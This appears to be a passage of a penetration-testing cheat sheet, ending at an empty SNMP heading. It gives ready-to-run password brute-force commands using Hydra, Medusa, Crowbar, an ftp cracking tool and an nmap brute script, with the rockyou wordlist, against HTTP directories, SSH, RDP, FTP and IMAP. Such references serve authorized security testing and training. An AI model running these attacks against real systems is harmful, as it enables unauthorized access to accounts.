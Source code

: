 #### Http based directory

```
root@kali:medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

#### SSH

```
root@kali:hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

#### RDP

\[1] With Hydra

```
hydra -V -f -L userlist.txt -P wordlist.txt rdp://ip
```

\[2] With Crowbar

```
root@kali:Crowbar.py -b rdp -s [ip or ip-range] -u [username or username-list] -p [password or password-list]
```

#### FTP

\[1] With Hydra

```
hydra -l root -P wordlist.txt ftp://ip 
```

\[2] With FTPncrack

```
ftpncrack -p 21 --user root -P passwords.txt ip
```

\[3] With Medusa

```
medusa -u root -P wordlist.txt -h ip -M ftp
```

#### IMAP

\[1] With Hydra

```
hydra -l USERNAME -P wordlist.txt -f ip imap -V​
```

\[2] With nmap

```
​nmap -sV --script imap-brute -p <PORT> <IP>
```

#### SNMP
